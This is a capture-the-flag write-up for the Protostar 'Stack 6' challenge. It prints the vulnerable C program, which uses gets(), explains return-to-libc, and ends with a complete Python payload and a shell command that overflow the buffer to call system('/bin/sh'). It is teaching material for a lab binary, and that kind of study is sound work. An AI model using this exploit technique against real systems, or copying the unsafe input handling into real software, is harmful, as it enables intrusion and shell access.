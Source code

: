 # Stack 6

## Source Code:

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);                            // <- this function cause buffer overflow    (1)

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {   // <- check if the ret of getpath() is on the stack     (2)
    printf("bzzzt (%p)\n", ret);           //          if true, then "bzzzt" and exit with signal 1    (3)
    _exit(1);
  }

  printf("got path %s\n", buffer);         // <-       if false, then it's simply print got path  (4)
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Overview & Main Idea

- This challenge has no-pie, no stack protector, rwx segment.

![img](/protostar/stack6/assets/checksec.png)

- At first, we can see that the program has buffer overflow vulnerability (1), so we can overwrite on the stack. But we can't overwrite getpath()'s address to another address on the stack that allow us to return to, so we can't use return to shellcode on stack to take control of target.
 
![img](/protostar/stack6/assets/stack_segment.png)

> ## Note: the stack has start at 0xbffeb000 and end at 0xc0000000, so we can't overwrite ret and return on the stack.

- With some informations above, I'll take advantage of ret-to-libc vulnerability to this challenge. 

## Details

### A bit about Ret-to-libc

#### What is Ret-to-libc?

- Ret-to-libc attack (return to libc, or return to C library) is one in which the attacker does not require any shellcode to take control of the target, vulnerability of process. Ret2libc is used to exploit buffer overflow vulnerabilities on systems where stack memory is protected with NX (no execute bit).
- In a standard stack-based buffer overflow, an attacker writes their shellcode into the vulnerable program's stack and executes it on the stack. 
- However, if the vulnerable program's stack is protected (NX bit is set, which is the case on newer systems), attackers can no longer execute their shellcode from the vulnerable program's stack. 
- To fight the NX protection, a return-to-libc technique is used, which enables attackers to bypass the NX bit protection and subvert the vulnerable program's execution flow by re-using existing executable code from the standard C library shared object (/lib/i386-linux-gnu/libc-*.so), that is already loaded and mapped into the vulnerable program's virtual memory space, similarly like ntdll.dll is loaded to all Windows programs.

#### Libc

- Every time you write a C program, you use one or the other of the inbuilt functions, like printf, scanf, puts etc. All the standard C functions have been compiled into a single file, named the standard C library or the libc. A libc is native to the system that you are working on and is independent of the binary (compiled program). You can use the **ldd** command to find out which libc is being used by an application.

![img](/protostar/stack6/assets/ldd.png)

- At a high level, ret-to-libc technique is similar to the regular stack overflow attack, but with one key difference - instead of overwritting the return address of the vulnerable function with address of the shellcode when exploiting a regular stack-based overflow with no stack protection, in ret-to-libc case, the return address is overwritten with a memory address that points to the function system(const char *command) that lives in the libc library, so that when the overflowed function returns, the vulnerable program is forced to jump to the system() function and execute the shell command that was passed to the system() function as the *command argument as part of the supplied shellcode. 
- In our case, we will want the vulnerable program to spawn the /bin/sh shell, so we will make the vulnerable program call system("/bin/sh").

#### The idea of Ret2libc is shown by below image

![img](/protostar/stack6/assets/illustrate_img.png)

### Exploit

- Let's find:
  + Size of bytes to overwrite until we can overwrite return the getpath() functions's address.
  + System() function's address to implement CLI command to take the shell.
  + Exit() function's address to exit the program when we done, but you can alter this with garbage value to fill up 4 bytes, like "aaaa" or somethings else.
  + Address to "/bin/sh" char*.

> # Note: ASLR must be turn off, if it's on, the address will be randomize every time we run the program
>
> ![img](/protostar/stack6/assets/aslr_off.png)
>

#### Offset to overwrite

- I use cyclic from pwntools to find the offset that we must overwrite

![img](/protostar/stack6/assets/cyclic.png)

![img](/protostar/stack6/assets/input.png)

- After do that, we find the offset to overwrite

![img](/protostar/stack6/assets/offset.png)

#### System and Exit function's address

- In GDB, I use `p system` and `p exit` to find the address of system and exit function

![img](/protostar/stack6/assets/system_exit.png)

> # Note: we can see that both system and exit function are in libc

#### Finding "/bin/sh"

- The `int system(char *command)` take 1 argument that is the shell command, so we also find "/bin/sh" string.

- We can use `find address_begin, address_end string_to_find` to find characters in string in range between address begin and end. But it's not in a specific ordered.

- But when the program is running, it link the libc to use build-in function. So we can find "/bin/sh" in this linked libc. In this program is /lib/libc-2.11.2.so with offset is 11f3bf

![img](/stack6/assets/offset_binsh.png)

- Finally, address of "/bin/sh" when program is running is calculated by `offset_binsh + libc_base_address = 0x11f3bf + 0xb7e97000 = 0xb7fb63bf`.

- So, We found all things to exploit the program, let's use python to write some script.

```python
# file name: exp.py

padding = "a"*80
fake_ret = "a"*4
sys_addr = "\xb0\xff\xec\xb7"
binsh_addr = "\xbf\x63\xfb\xb7"

payload = ""
payload += padding + sys_addr + fake_ret + binsh_addr
print(payload)

# python exp.py > temp.pwn && (cat temp.pwn; cat) | ./stack6
```
